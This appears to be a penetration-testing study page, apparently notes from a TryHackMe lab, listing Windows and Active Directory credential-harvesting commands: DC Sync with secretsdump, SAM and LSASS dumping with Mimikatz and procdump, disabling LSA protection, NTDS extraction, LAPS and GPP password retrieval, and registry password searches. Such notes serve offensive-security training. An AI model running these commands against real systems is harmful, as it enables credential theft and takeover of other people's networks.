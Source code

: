 # Credentials Harvesting

## Remote Windows Credentials

### DC Sync

When an account that has the following AD permissions, Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set or administrator replicates the entire domain. **Can use MimiKatz**.

`python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.120.81` to perform a DC sync

* the `-just-dc` argument is for extracting the NTDS data.  (`-just-dc-ntlm` to dump only NTLM hashes)
* the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

## Local Windows Credentials

### Dumping the SAM

#### Metasploit HashDump

Gets a copy of the content of the SAM database by using in-memory code inejction the LSSAS.exe process.

`meterpreter > hashdump`

#### Volume Shadow Copy Service

A native service that helps perform volume backup while application read/write on volumes. (Note: needs administrator privileges).

1. `C:\Users\Administrator>wmic shadowcopy call create Volume='C:'` to create a copy of shaodw of `C:` Drive
2. `vssadmin list shadows` to confirm that we have a shadow copy of `C:`&#x20;
3. The SAM database is encrypted with RC4 or AES, so we need the decryption key which is stored in `c:\Windows\System32\Config\system`&#x20;
   1. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam`&#x20;
   2. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system`&#x20;

#### Registry Hives

Windows Registry stored a copy of some of the SAM database contents to be used by window services.

1. Save both decryption files for the decryption key
   1. `reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg`&#x20;
   2. `reg save HKLM\system C:\users\Administrator\Desktop\system-reg`&#x20;
2. `python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL` to use Impact `secretsdump.py` to decrypt. Specified `LOCAL` to specify that this is the LOCAL SAM

### Dumping the LSASS

#### GUI

To dump any running Windows process using the GUI, open Task Manager and from the Details tab right-click on a process to "Create dump file".

#### Sysinternals Suite

Using ProcDump we can dump the lsass given that the Sysinternals Suite is installed.

`procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump`

{% hint style="info" %}
Dumping the LSASS process is a known technique easily caught by AVs. AV bypasses need to implemented in the real world to perform such an action.
{% endhint %}

#### MimiKatz

`mimikatz.exe` to run the mimikatz binary **(Note: must be run as `SYSTEM` or local administrator).**

`privilege::debug` to enable the `SeDebugPrivilege` privilege and check the current permissions for memory access.

`sekurlsa::logonpasswords` to dump all cached passwords and hashes from the `lsass.exe`

**Protected LSASS**

Since 2012, the LSASS has been protected from being accessed to extract credentials from memory.

`!+` in mimikatz to run the `mimidrv.sys` driver that runs at the kernel to disaable the LSA protection

`!processprotect /process:lsass.exe /remove` to disable the protection.

### Windows Credential Manager

Accessible via a GUI in the Control Panel. But also via the command prompt.

`vaultcmd /list` to enumerate which windows vaults exist

`VaultCmd /listproperties:"VAULT"` to view if there are any stored credentials

`VaultCmd /listcreds:"Web Credentials"` to view more information about it

#### Dumping the WCM

Must use PowerShell Scripts such as the [`Get-WebCredentials.ps1`](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)&#x20;

#### RunAs

Allows users to run Windows applications under different users' permissions.&#x20;

`cmdkey /list`  as another way to enumerate the stored credentials, can use `/list:computername` as well

`runas /savecred /user:THM.red\thm-local cmd.exe` to run the cmd.exe as thm-local user

### Domain Controller

We are trying to dump the NTDS located in `C:\Windows\NTDS` . This file is encrypted so we need to dump the system Boot Key to attempt to decrypt LSA Isolated credentials, stored in the `SECURITY` filesystem.

#### Ntdsutil

Windows utility to used manage and maintain Active Directory configurations. Can be used to restore deleted objects in AD, perform maintencance in the AD, configure AD snapshot management, and set Directory Services Restore Mode (DSRM) administrator passwords.

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"` to locally dump the the NTDS by **having administrator access to the domain controller.**

`python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local` to extract the hashes after having transfered to the attacking machine

### Local Administrator Password Solution (LAPS)

#### Enumeration

1. `dir "C:\Program Files\LAPS\CSE"` to check if LAPS is installed by checking the `admpwd.dll` path
2. `Get-Command AdmPwd` to check the available commands
3. `Find-AdmPwdExtendedRights -Identity THMorg` to check which AD OU has "All extended rights" attribute (Note: can use `-Identity *` to list all available OUs)
4. `net groups "THMGroupReader"` to check group and its members (Note: check the output of the command before to enumerate the right OU)

#### Getting the Password

1. Compromise or impersonate the user that is part of the OU with the proper permissions
2. `Get-AdmPwdPassword -ComputerName creds-harvestin` to get the LAPS password on the arget machine with LAPS enabled

#### (Legacy) GPP

The GPP relevant XML files contains passwords encrypted using AES-256 encryption, the private key was somehow leaked so you can crack the SYSVOL with [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1).

## Quick Wins

#### Powershell History

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`&#x20;

#### Saved Windows Credentials

`cmdkey /list` lists all credentials stored in the Windows Credential Manager (Note: won't allow you to view them directly)

`runas /savecred /user:admin cmd.exe` run a cmd.exe as the user stored in the Credential Manager

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v keyword` to view if auto-log on is stored in the Windows registry

`reg query HKLM /f "password" /t REG_SZ /s` to search the registry for anything related to the password

#### Internet Information Services (IIS) Configuration

Is responsible for the default web server on Windows installs. Will sometimes store password for databases or configurated authentications.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Retrieve Credentials from software

PuTTY (SSH client on windows): stores connection parameters such as IPs and SSH passwords. Only accessible with Proxy  `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
